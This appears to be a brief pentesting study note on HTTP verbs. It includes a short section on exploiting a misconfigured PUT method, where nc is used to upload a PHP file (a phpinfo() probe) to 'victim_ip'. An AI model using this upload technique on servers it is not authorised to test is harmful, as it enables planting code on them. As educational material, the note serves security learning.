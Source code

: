# HTTP Verbs

### Get

It is used to request a resource. We can also pass arguments to webserver in url using `?`



### Post

It is used to submit HTML form data. POST parameters should be in message body



### Head

It asks header of the response instead of also getting the body.



### Put

It is used to upload a file to the server. It is very dangerous if allowed and misconfigured

```
PUT /path/to/destination HTTP/1.1
Host: www.example.com

<Put Data>
```

#### Exploiting the PUT Method

You have to specify the size of file that you are sending

```bash
$ wc -m payload.php
20 payload.php
```

* \-m tells us how long in bytes our payload is.

```bash
$ nc victim_ip port
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 20

<?php phpinfo(); ?>
```

* HTTP/1.0 allows us to skip the **Host:** header



### Delete

It is used to remove a file from the server. It is also very dangerous which can lead to denial of service and data loss

```
DELETE /path/to/destination HTTP/1.1
Host: www.example.com
```



### Options

It is used to query web server for enabled http verbs.
